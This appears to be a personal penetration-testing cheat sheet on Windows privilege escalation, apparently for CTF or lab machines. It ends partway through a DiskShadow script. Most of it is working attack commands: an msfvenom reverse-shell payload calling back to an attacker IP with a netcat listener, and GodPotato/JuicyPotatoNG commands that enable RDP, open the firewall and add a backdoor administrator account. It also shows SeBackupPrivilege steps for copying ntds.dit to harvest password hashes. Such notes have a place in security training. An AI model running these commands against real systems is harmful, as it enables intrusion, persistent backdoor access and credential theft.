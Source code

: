 PowerUp.ps1
- make sure to run in powershell
- copy to target machine
```
. .\PowerUp.ps1
```
```
Invoke-AllChecks
```

```whoami /priv```
- check any Se privs here https://github.com/gtworek/Priv2Admin
***SeImpersonatePrivilege***
JuicyPotatoNG.exe
```
.\JuicyPotatoNG.exe -t * -p shell.exe
```
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.21.90.250 LPORT=8082 -f exe > shell.exe`
- `rlwrap -cAr nc -lnvp 8082`
- 
GodPotato
	- Create RDP admin user:
```
.\GodPotato-NET4.exe -cmd "cmd /c reg add \"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 0 /f"
```

```
.\GodPotato-NET4.exe -cmd "cmd /c netsh advfirewall firewall set rule group="remote desktop" new enable=Yes"
```

```
.\GodPotato-NET4.exe -cmd "cmd /c net user chepe P@ssw0rd /add"
```

```
.\GodPotato-NET4.exe -cmd "cmd /c net localgroup administrators chepe /add"
```
other versions: [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer)
- https://github.com/itm4n/PrintSpoofer/releases

***SeMachineAccountPrivilege***
	- See [[#^062636|RBCD Attack]] below
	- See [[#^8bdeef|DC Sync Attack]] below
	- See [[#^b9f60c|Azure Connect abuse]] below

***SeBackupPrivilege***
	- upload files from [https://github.com/giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege) to `C:\programdata` directory
		- `import-module .\SeBackupPrivilegeCmdLets.dll`
		- `import-module .\SeBackupPrivilegeUtils.dll`
	- Can now copy and read files you wouldn't normally be able to as a non-admin user. Example:
```
Copy-FileSeBackupPrivilege \users\administrator\desktop\root.txt 0xdf.txt
```
- `type \programdata\0xdf.txt`
- can also use to read `ntds.dit` which holds all the password hashes
	- `Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit .`
		- if can't copy because it's in use, try DiskShadow
			- create file on kali *vss.dsh*:
```
set context persistent nowriters  
add volume c: alias df  
create  
expose %df% z: